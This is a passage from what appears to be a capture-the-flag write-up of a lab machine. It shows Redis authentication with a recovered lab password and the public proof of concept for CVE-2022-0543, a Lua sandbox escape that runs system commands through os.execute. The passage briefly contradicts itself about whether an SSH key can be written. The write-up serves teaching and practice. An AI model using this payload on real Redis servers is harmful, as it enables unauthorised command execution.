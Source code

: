 I’ll do the same with the next one:

![image-20220713172912882](https://0xdfimages.gitlab.io/img/image-20220713172912882.png)

It’s important to pay attention to the length, or else it’s easy to read too far and get the wrong password:

![image-20220713172949404](https://0xdfimages.gitlab.io/img/image-20220713172949404.png)

### Strategy

HackTricks has a really nice [page on Redis](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-rce). Under RCE, there’s a bunch of options. Some involved writing webshells. The one that jumped out immediately to me is writing an SSH key. Unfortunately for me, that one fails because there’s no `.ssh` directory in `/root`, and Redis won’t create one.

With the creds, I can auth to Redis:

```

dan_smith@shared:~$ redis-cli 
127.0.0.1:6379> auth F2WHqJUz2WEz=Gqq
OK
127.0.0.1:6379> 

```

With access to Redis, I can write an SSH key as root. I’ll go with the one HackTricks calls “LUA Sandbox Bypass”, or CVE-2022-0543.

### CVE-2022-0543

#### Enumeration

`info server` shows the Redis version:

```
127.0.0.1:6379> info server
# Server
redis_version:6.0.15
...[snip]...

```

#### Exploit

The researcher who discovered CVE-2022-0543 describes it well in [this post](https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce). It’s actually a vulnerability in Debian where Redis is present. The proof of concept looks like this:

```

eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so", "luaopen_os"); local os = os_l(); os.execute("touch /tmp/redis_poc"); return 0'

```
